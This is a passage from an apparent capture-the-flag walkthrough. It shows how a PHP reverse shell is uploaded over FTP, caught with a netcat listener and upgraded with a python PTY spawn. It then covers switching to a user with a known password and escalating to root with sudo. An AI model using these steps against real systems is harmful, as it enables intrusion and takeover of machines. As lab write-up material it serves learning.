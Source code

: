 ![[14 2.png]]
- We set he IP address to our `tun0` interface and the port to any port we like.
- Let's upload the modified `shell.php` using the `put` command.
```
ftp> put shell.php
local: shell.php remote: shell.php
200 EPRT command successful. Consider using EPSV.
150 Ok to send data.
100% |***********************************************************************************************************************************************************************************************|  5494        3.20 MiB/s    00:00 ETA
226 Transfer complete.
5494 bytes sent in 00:00 (19.89 KiB/s)
```
- We have successfully uploaded our `shell.php` file to the FTP server. 
- Let's start listening for connections using `nc`.
```
$ nc -nlvp 9999            
listening on [any] 9999 ...
```
- Now we have to download the shell through our browser.
![[15 1.png]]
- Let's check our listener.
```
$ nc -nlvp 9999            
listening on [any] 9999 ...
connect to [10.17.48.138] from (UNKNOWN) [10.10.108.36] 49210
Linux wir3 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 11:51:14 up 31 min,  0 users,  load average: 0.00, 0.00, 0.13
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
- Let's het a bash shell and switch user to `jenny`.
```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@wir3:/$ su jenny
su jenny
Password: 987654321

jenny@wir3:/$ 
```
- Let's check what files `jenny` can execute without the password.
```
jenny@wir3:/$ sudo -l
sudo -l
[sudo] password for jenny: 987654321

Matching Defaults entries for jenny on wir3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jenny may run the following commands on wir3:
    (ALL : ALL) ALL
```
- We have permissions to switch user to `root`.
```
jenny@wir3:/$ sudo su
sudo su
root@wir3:/# 
```
- Let's read the flag.txt file inside the Reptile directory.
```
```